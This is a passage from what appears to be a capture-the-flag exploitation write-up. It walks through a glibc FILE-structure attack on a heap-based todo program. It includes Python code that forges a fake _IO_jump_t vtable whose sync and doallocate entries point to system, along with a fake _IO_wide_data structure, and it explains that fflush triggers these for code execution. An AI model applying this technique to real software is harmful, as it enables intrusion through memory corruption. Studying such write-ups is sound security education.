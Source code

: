```py
        self.setbuf = libc.sym["_IO_new_file_setbuf"]
        self.sync = libc.sym["__GI__IO_wfile_sync"]
        self.doallocate = libc.sym["_IO_wfile_doallocate"]
        self.read = libc.sym["__GI__IO_file_read"]
        self.write = libc.sym["_IO_new_file_write"]
        self.seek = libc.sym["__GI__IO_file_seek"]
        self.close = libc.sym["__GI__IO_file_close"]
        self.stat = libc.sym["__GI__IO_file_stat"]
        self.showmanyc = libc.sym["_IO_default_showmanyc"]
        self.imbue = libc.sym["_IO_default_imbue"]


class _IO_wide_data:
    address = 0
    _wide_vtable = 0
    def encode(self):
        pay = b"\x00" * 224 + p64(self._wide_vtable)
        return (pay)
```

Before we can allocate the necessary structures, we need to find a way to trigger the `_wide_data` jump table. Thanks to the `dump_todos` function and the fflush call, which eventually leads to the invocation of `x->_wide_data.doallocate`, we can poison this function with the system function from libc.

```c
void dump_todos(){
    ...
    fflush(x);
    ...
}
```

Now we can start by allocating a fake `_IO_jump_t` structure in the heap and inject it using the `create_todo` function.  
```py
    wide_jump_table = _IO_jump_t()
    wide_jump_table.init()
    wide_jump_table.sync = libc.sym["system"]
    wide_jump_table.doallocate = libc.sym["system"]
    wvtpay = wide_jump_table.encode()
    create_todo(wvtpay, len(wvtpay))
```

then allocating the `_IO_wide_data` structure with the fake jumptable  
```py
    # allocating wide table
    wide_table = _IO_wide_data()
    wide_table._wide_vtable = wide_jump_table.address
    wtpay = wide_table.encode()
    create_todo(wtpay, len(wtpay))
    wide_table.address = elf.heap + 1376
    print(f"wide table {hex(wide_table.address)}")
```
